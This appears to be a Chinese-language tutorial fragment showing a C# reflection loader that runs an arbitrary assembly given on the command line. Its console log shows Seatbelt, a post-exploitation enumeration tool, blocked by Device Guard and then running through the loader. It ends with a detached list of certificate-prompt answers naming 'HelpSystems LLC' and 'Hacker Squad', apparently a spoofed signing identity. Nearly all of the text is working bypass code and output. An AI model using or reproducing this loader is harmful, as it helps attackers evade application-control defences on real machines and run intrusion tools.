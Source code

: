 
下面是一个通过C#反射加载，执行我们指定程序的例子

```
using System.IO;
using System.Reflection;

namespace VulnerableApp;

internal static class Program
{
    public static void Main(string[] args)
    {
        var bytes = File.ReadAllBytes(args[0]);
        var asm = Assembly.Load(bytes);

        asm.EntryPoint.Invoke(null, new object[]
        {
            new string[] { }
        });
    }
}
```


直接执行Seatbelt报错
通过反射加载，执行Seatbelt成功
```
PS C:\Users\hdoyle> .\Desktop\Seatbelt.exe
Program 'Seatbelt.exe' failed to run: Your organization used Device Guard to block this app.

PS C:\Users\hdoyle> & 'C:\Program Files\VulnerableApp\VulnerableApp.exe' .\Desktop\Seatbelt.exe

                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v1.1.1         ,(((&%%%%%%%%%%%%%%%%%,>
                         #%%%%##,
```

  [Unknown]:  HelpSystems LLC
  [Unknown]:  Hacker Squad
  [Unknown]:  HelpSystems LLC
  [Unknown]:  Eden Prairie
  [Unknown]:  MN
  [Unknown]:  US
  [no]:  yes